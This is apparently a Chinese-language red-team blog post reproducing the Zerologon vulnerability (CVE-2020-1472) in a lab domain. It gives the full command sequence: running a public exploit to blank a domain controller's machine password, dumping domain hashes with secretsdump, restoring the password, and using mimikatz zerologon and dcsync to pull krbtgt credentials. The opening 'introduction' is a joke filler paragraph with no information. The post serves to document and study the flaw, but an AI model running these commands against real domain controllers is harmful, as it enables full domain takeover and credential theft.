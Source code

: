 ```yaml
---
layout:     post
title:    CVE-2020-1472
subtitle:   CVE-2020-1472踩坑
date:       2020-09-27
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 内网渗透
    - 红队
    - 复现
---
```

# CVE-2020-1472

## 介绍
CVE-2020-1472，懂的都懂，不懂的，说了你也不明白，不如不说。你们也别来问我怎么了，利益牵扯太大，说了对你们也没什么好处，当不知道就行了，其余的我只能说这里面水很深，牵扯到很多大人物，详细资料你们自己找是很难的，网上大部分都被删干净了，所以我只能说懂的都懂，不懂的也没办法。  

## 环境
```
DC:10.10.10.10  //2012
PC:10.10.10.201 //win7
attack:10.10.10.15 //kali
```
一开始是打算通过PC用s5代理去打后来发现有点问题，代理总是通不了，最后直接加了个HostOnly的网卡直接打。  

## 准备工作
先准备最新版的impacket。  
```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python3 -m pip install . 
```
下载exp。  
```
git clone https://github.com/VoidSec/CVE-2020-1472
cd CVE-2020-1472 && python3 -m pip install -r requirements.txt
```

## 复现
### 重置密码为空
首先开机，检测步骤直接略了，反正我知道他有这个，这个exp里也没带检测脚本，直接打就行。  

```
python3 cve-2020-1472-exploit.py -n DC -t 10.10.10.10
```
![200927_1](/img/200927_exp.png)  
看到已经成功重置，尝试空密码登录读取下hash。  
使用impacket/example下的secretsdump.py。  
```
python3 secretsdump.py -no-pass -just-dc de1ay/DC\$@10.10.10.10
```
![200927_2](/img/200927_hash.png)  
可以看到已经被重置为空密码。  
```
DC$:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
### 恢复密码
先尝试的是使用secretsdump.py，结果好像不行。  
```
python3 secretsdump.py de1ay/DC\$@10.10.10.10 --hashes xxxxxxxxxxxxxx:xxxxxxxxxxx
```
![200927_3](/img/200927_restfail.png)  
直接使用了exp中自带的恢复脚本。  
```
python3 reinstall_original_pw.py DC 10.10.10.10 xxxxxxxxxxxxxx:xxxxxxxxxxx
```
![200927_4](/img/200927_reset.png)  



## mimikatz复现
mimikatz中也加入了CVE-2020-1472，拿来尝试下发现有几个需要注意的点。  
项目地址:[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
检测是否存在漏洞：  
```
.\mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.10.10 /account:DC$"
```
![200927_5](/img/200927_mimikatz.png)  
然后开始利用：
```
.\mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.10.10 /account:DC$ /exploit"
```
![200927_6](/img/200927_mimierr2.png)  
然后问题来了，后面的读hash操作是失败的。  
![200927_7](/img/200927_mimierr1.png)  
同样的重置自然也就不行了。  
原因应当是"privilege::debug"执行失败，这里就有一个坑了，我没填，如果是到域内机器上执行mimikatz进行利用，那只有一个普通域成员权限是不够的，需要域管权限才能执行（这时候我还需要利用这个打域控么？）。  
![200927_8](/img/200927_mimierr3.png)  
为了测试，我用管理权限启动了mimikatz，再进行执行，发现一切都正常了，只是我的脑子不正常了。  
```
lsadump::dcsync /domain:de1ay.com /dc:dc.de1ay.com /user:krbtgt /authuser:DC$ /authdomain:de1ay /authpassword:"" /authntlm
```
![200927_9](/img/200927_mimisecc.png)  
再重置密码也就成功了。  
![200927_10](/img/200927_mimisecc2.png)  



## 结尾
关于mimikatz的测试，我只测试了域成员本地的情况，因为我这代理的问题，没有测试本机通过代理直接去打的情况，有闲工夫的师傅们可以尝试下，挂代理用mimikatz打能否成功，望告知小弟结果。  